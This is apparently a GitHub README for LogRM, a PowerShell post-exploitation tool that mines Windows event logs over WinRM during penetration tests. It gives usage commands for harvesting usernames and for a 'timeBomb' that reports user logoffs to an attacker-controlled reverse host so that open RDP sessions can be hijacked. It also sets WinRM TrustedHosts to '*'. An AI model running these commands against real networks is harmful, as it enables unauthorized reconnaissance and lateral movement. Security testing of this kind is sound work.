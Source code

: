 # LogRM
LogRM is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use LogRM not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Configuration

In some cases may be you need to configure WinRM protocol to be functional

On client side (attacker):

	winrm quickconfig
	winrm set winrm/config/client '@{TrustedHosts="*"}'
		
On the server side (victim):
		
	Enable-PSRemoting -Force
	winrm quickconfig


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account


### Examples

The LogRM searching into newest 10(default value) entries into all event types.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip>
PS> LogRM -user <username> -pass <password> -fips <file with ips>
PS> LogRM -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> LogRM -ip 127.0.0.1 -eventID <eventID> 
```

![alt text](https://github.com/tasox/LogRM/blob/master/example1_.png)

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> LogRM -ip 127.0.0.1 -newest <number>
```

![alt text](https://github.com/tasox/LogRM/blob/master/example2_.png)

Providing the -users flag you will get as a result some valid usernames. The LogRM searches into these event IDs 4624,4625,4776 

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -users
PS> LogRM -user <username> -pass <password> -fips <file with ips> -users
PS> LogRM -ip 127.0.0.1 -users
```

In earlier windows versions for example Windows server 2008, you can not have more than 5 winrm connections with the same host

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBomb:

1) now
2) once
3) trigger

Timebomb uses the following events:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4647) - User initiated logoff
3) Information Event ID (4778) - A session was reconnected to a Window Station
4) Information Event ID (4779) - A session was disconnected from a Window Station
5) Information Event ID (4800) - The workstation was locked
6) Information Event ID (4801) - The workstation was unlocked
7) Information Event ID (4802) - The screen saver was invoked
8) Information Event ID (4803) - The screen saver was dismissed

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000

Tip2: If you want to get notifications only from users who have open RDP connection(s) before logged out then you should uncomment the line 785


#### An intro to windows events

Before use timebomb we have to learn the differences between windows events. Events 4778/4779 is fired up when the user is currently logged in and uses switch button to move quickly between users without locked or logout from his terminal. Events 4800 is fired up when the user press the button from keyboard (window+L) or with his mouse on start button press lockout. On the other hand 4801 is fired up after using ctrl+alt+del. Sometimes users uses screensavers not only for powersaving but also to lock their machines, in this case 4802/4803 are taking place. 

Information: In windows server 2008 events 4800/4801/4802/4803 are not created without a policy.


### Usage

The task is going to run now.
```
PS> timeBomb -task now -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged on

![alt text](https://github.com/tasox/LogRM/blob/master/Use_is_LoggedOn.png)


#### Example 2 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/User_LoggedOf.png)


The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/timBomb_task_once.png)


The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## RDPConn (Valid RDP Connections)

RDPConn function gets only valid incoming RDP connections into the compromised host. By using this function you will be able to observe which users from which machines have connection with our host without interrupt their connection if we tried to login with the same credentials.

```
PS> RDPConn
```

#### Example 1

![alt text](https://github.com/tasox/LogRM/blob/master/timBomb_task_once.png)



## Authors

* TasoX (@taso_x)



